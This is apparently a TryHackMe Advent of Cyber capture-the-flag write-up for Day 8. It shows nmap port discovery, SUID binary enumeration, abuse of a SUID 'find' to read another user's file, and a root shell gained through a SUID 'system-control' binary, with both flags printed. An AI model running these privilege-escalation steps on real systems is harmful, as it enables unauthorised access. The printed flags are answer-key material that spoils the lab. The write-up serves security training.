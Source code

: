# TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 8
## What port is SSH running on?
```bash
$ nmap -sV -p 10000- 10.10.234.200
PORT      STATE SERVICE REASON  VERSION
65534/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```
**Answer**: `65534`
## Find and run a file as `igor`. Read the file `/home/igor/flag1.txt`.
```bash
$ ssh holly@10.10.234.200 -p 65534
holly@ip-10-10-234-200:~$ ls -l /usr/bin/find
-rwsr-xr-x 1 igor igor 221768 Feb  7  2016 /usr/bin/find
holly@ip-10-10-234-200:~$ find /home/igor/flag1.txt -exec cat /home/igor/flag1.txt \;
THM{d3f0708bdd9accda7f937d013eaf2cd8}
```
**Flag 1**: `THM{d3f0708bdd9accda7f937d013eaf2cd8}`
## Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the `/root/flag2.txt` file?
1. Find SUID binaries:
```bash
holly@ip-10-10-234-200:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null | grep "/bin"
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27608 Aug 23  2019 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40152 Aug 23  2019 /bin/mount
-rwsr-xr-x 1 root root 40152 May 15  2019 /snap/core/7396/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/7396/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/7396/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/7396/bin/su
-rwsr-xr-x 1 root root 27608 May 15  2019 /snap/core/7396/bin/umount
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/7396/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/7396/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/7396/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/7396/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/7396/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jun 10  2019 /snap/core/7396/usr/bin/sudo
-rwsrwxr-x 1 root root 8880 Dec  7  2019 /usr/bin/system-control
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 136808 Jun 10  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 23376 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newgidmap
```
2. Use `system-control` to gain root access from a `bash` shell:
```bash
holly@ip-10-10-234-200:~$ system-control

===== System Control Binary =====

Enter system command: /bin/bash
root@ip-10-10-234-200:~# cat /root/flag2.txt
THM{8c8211826239d849fa8d6df03749c3a2}
```

**Flag 2**: `THM{8c8211826239d849fa8d6df03749c3a2}`
